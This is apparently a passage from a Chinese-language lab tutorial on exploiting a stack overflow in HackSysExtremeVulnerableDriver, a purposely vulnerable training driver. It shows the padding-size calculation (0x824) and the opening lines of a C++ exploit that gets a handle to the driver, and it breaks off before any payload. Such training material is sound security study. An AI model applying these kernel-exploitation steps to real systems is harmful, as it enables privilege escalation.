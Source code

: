 ![image](images/z4jAqFilX8CoFfD5T1RC6iTUql2RzWI7WOmy2ZjdeXw.png)

![image](images/naqoxwG3F_mBmBz1uYrMyKPHqtUE2tZPxddNRQHBQLg.png)

从上图的ebp-0x81c和栈结构图可以得知应该填充的大小为：0x81C+4+4=0x824

所以我们重新修改代码，修改后的代码为：

```cpp
#include "stdafx.h"
#include <Windows.h>

#define DEVICE_LINK_NAME    "\\\\.\\HackSysExtremeVulnerableDriver"

int _tmain(int argc, _TCHAR* argv[])
{
	HANDLE hDevice = CreateFile(
		DEVICE_LINK_NAME,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);
//这里是修改后的代码
```